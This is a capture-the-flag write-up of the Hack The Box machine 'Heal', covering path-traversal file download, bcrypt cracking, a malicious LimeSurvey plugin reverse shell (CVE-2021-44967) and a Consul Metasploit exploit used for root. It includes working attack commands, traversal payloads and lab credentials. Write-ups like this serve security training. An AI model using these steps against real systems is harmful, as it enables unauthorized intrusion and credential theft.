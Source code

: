 ```yaml
---
title: Heal Writeup
description: Writeup of "Heal" machine from Hackthebox
categories: [Writeups, Hackthebox]
tags: [Hackthebox]
image:
  path: /assets/blogimages/Writeups/Hackthebox/heal/HealLOGO.png
  alt: Heal Writeup
---
```


## Enumeration

Let's start with nmap scan:

```nmap -Pn -A -p- 10.10.11.46 -v```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 68:af:80:86:6e:61:7e:bf:0b:ea:10:52:d7:7a:94:3d (ECDSA)
|_  256 52:f4:8d:f1:c7:85:b6:6f:c6:5f:b2:db:a6:17:68:ae (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```
The results show two open ports:
- 22/tcp – SSH (OpenSSH 8.9p1)
- 80/tcp – HTTP (nginx 1.18.0)


HTTP redirects us to **heal.htb**, so we add it to /etc/hosts:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal1.png)

Upon visiting **heal.htb**, we’re met with a login page:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal2.png)

We register an account (requires **api.heal.htb** in /etc/hosts), and are redirected to a Resume Builder:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal4.png)
This form lets you generate and export resumes as PDFs.

Visiting **api.heal.htb** confirms the backend is Ruby on Rails.
![](/assets/blogimages/Writeups/Hackthebox/heal/heal5.png)


Exploring the app further, the Survey section redirects to **take-survey.heal.htb**, which runs LimeSurvey. 
![](/assets/blogimages/Writeups/Hackthebox/heal/heal6.png)

Tried the admin panel with default creds (admin:password)—no luck.

## Initial Foothold

 I returned to the Resume Builder feature and started exploring its functionality. While exporting a created resume to PDF, I intercepted the requests and noticed something interesting—a file download endpoint:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal7.png)

I tested for a Local File Inclusion (LFI) vulnerability, and it worked!
![](/assets/blogimages/Writeups/Hackthebox/heal/heal8.png)

Since the backend was running Ruby on Rails, I consulted the official [Rails configuration](https://guides.rubyonrails.org/configuring.html) guide to identify key configuration files.
Using the LFI, I fetched the database configuration file `/download?filename=../../config/database.yml`:<br>
![](/assets/blogimages/Writeups/Hackthebox/heal/heal9.png)

I then downloaded the database file directly using wget:
```
wget --header="Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjo3fQ.bN47YVxPM1ZVqbw4J7oHZeDc3ixY3KO6yZpM5M3nfZE" "http://api.heal.htb/download?filename=../../storage/development.sqlite3" -O development.sqlite3
```



After running `strings development.sqlite3`, I found a bcrypt hash for the **ralph** user:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal10.png)
`$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG`

I used Hashcat to crack it:
`hashcat -m 3200 -a 0 ralphHASH.txt /usr/share/wordlists/rockyou.txt`
![](/assets/blogimages/Writeups/Hackthebox/heal/heal11.png)
`$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369`



The cracked password was:
`ralph:147258369`
I then logged in to take-survey.heal.htb using those credentials.
![](/assets/blogimages/Writeups/Hackthebox/heal/heal12.png)
Then just scrolling down it reveals that LimeSurvey 6.6.4 version is used.

While exploring the interface, I noticed it was running LimeSurvey version 6.6.4.

I searched for a known exploit using the query limesurvey 6.6.4 exploit and found this [blog post on CVE-2021-44967](https://ine.com/blog/cve-2021-44967-limesurvey-rce). Although the exploit was originally for older versions, I decided to try it anyway.

Using the resource I did the following steps:<br>
**1.** Downloaded files from [github](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE)<br>
**2.** Modified php-rev.php to include my tun0 IP and desired port:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal13.png)

**3.** In config.xml I added version 6.0 compatibilty since otherwise it would give `The plugin is not compatible with your version of LimeSurvey.` error.

```
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>Y1LD1R1M</name>
        <type>plugin</type>
        <creationDate>2020-03-20</creationDate>
        <lastUpdate>2020-03-31</lastUpdate>
        <author>Y1LD1R1M</author>
        <authorUrl>https://github.com/Y1LD1R1M-1337</authorUrl>
        <supportUrl>https://github.com/Y1LD1R1M-1337</supportUrl>
        <version>6.0</version>
        <license>GNU General Public License version 2 or later</license>
        <description>
                <![CDATA[Author : Y1LD1R1M]]></description>
    </metadata>

    <compatibility>
        <version>3.0</version>
        <version>4.0</version>
        <version>5.0</version>
        <version>6.0</version>
    </compatibility>
    <updaters disabled="disabled"></updaters>
</config>
```

**4.** Then zipped it all up: `zip -r Y1LD1R1M.zip config.xml php-rev.php`<br>
**5.** In the LimeSurvey dashboard, I navigated to: Configuration → Plugins → Upload & Install, selected the crafted ZIP file, and clicked Install → Install. After installation, I activated the plugin:<br>

![](/assets/blogimages/Writeups/Hackthebox/heal/heal14.png)

**6.** With the plugin active, I prepared a reverse shell listener on my attacking machine: `nc -lvnp 1234`. 
Then, I triggered the payload by accessing: **take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php** and got a shell:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal15.png)
Used `python3 -c 'import pty; pty.spawn("/bin/bash")'` for a upgraded shell.

While exploring the system, I found credentials in **/var/www/limesurvey/application/config/config.php**:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal16.png)
I tried logging in via SSH with those creds and successfully accessed the machine as user **ron**:
 `ron:AdmiDi0_pA$$w0rd`.

## Privilege Escalation

While exploring the system, I noticed a non-ordinary process running as root by inspecting the process list with `ps aux`:
```
root     1737  0.0  0.1  /usr/local/bin/consul agent -server -ui -advertise=127.0.0.1 -bind=127.0.0.1 -data-dir=/var/lib/consul -node=consul-01 -config-dir=/etc/consul.d
```
This indicated that HashiCorp Consul was running locally.
I checked the Consul version via the binary:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal17.png)

After researching potential exploits, I came across a known [Metasploit module](https://www.rapid7.com/db/modules/exploit/multi/misc/consul_service_exec/)

To exploit it, I followed these steps:

1. Port Forward Consul's Web UI (Port 8500) to my local machine:
```
ssh -L 8500:localhost:8500 ron@10.10.11.46
```

2. Launch Metasploit and configure the exploit:
```
msfconsole -q
use exploit/multi/misc/consul_service_exec
set RHOSTS localhost
set LHOST tun0
run
sessions 2
```
After a few moments, I received a session as root:
![](/assets/blogimages/Writeups/Hackthebox/heal/heal18.png)

And just like that — I had root access on the box!